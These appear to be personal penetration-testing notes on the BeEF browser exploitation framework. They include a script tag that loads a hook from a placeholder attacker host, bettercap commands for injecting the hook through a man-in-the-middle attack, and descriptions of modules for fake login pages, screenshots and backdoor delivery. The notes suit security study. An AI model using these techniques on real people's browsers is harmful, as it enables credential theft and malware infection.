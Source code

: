 ```yaml
---
tags:
  - security
  - tool
  - web
title: BeEF
updated: 2024-01-28
date: 2024-01-28 14:15:56 -0600
---
```


**BeEF**: Browser Exploitation Framework  
Makes use of JS to hook the target browser. Works on any platform as long as target device browser supported JS

Username: `beef`  
Password: `password`

**Hook URL**

````bash
<script src="http://<attacker-ip-address>:3000/hook.js"></script>
````

The URL can be sent to the target using various methods like Social Engineering, MITM attack with DNS spoofing, XSS or JS Injection after performing MITM attack

### Tabs Explained

Detail Tab : Browser Details  
Logs : Events that occurred in the browser  
Commands : Run various commands  
Proxy : Allows to use hooked browser as a proxy  
XssRays : Shows if page has any XSS vulnerabilities  
Network : Overview of current network

<u>Load Hook Script on all Sites (MITM + JS Injection)</u>

Inject Beef Code : <https://drive.google.com/file/d/1uCeGZKyP1Cj2UIORqYMrlFTyi9dLaCUa/view?usp=sharing>  
Add the JS Script in the HSTS Hijack caplet file and perform MITM attack

````bash
bettercap -iface <interface> -caplet <sniff-data-cap-file>
hstshijack/hstshijack (Run HSTS Caplet)
````

### Commands

**Create Alert Dialog**  
Create an dialog box on the target browser

**Raw JavaScript**  
Execute JS code on the target browser

**Spyder Eye**  
Take screenshot of the target browser screen

**Redirect Browser**  
Redirect the target to an different webpage  
Can be used to redirect to download an backdoor, fake login page, etc.

**Get Visited URL**  
Check of a URL was visited by the target

**Pretty Theft**  
Create fake login page to steal credentials

**Fake Notification Bar**  
Send Backdoor, malicious code to user using an fake notification message  
If sending an backdoor ensure to start "Multi Handler" to listen to the connection
   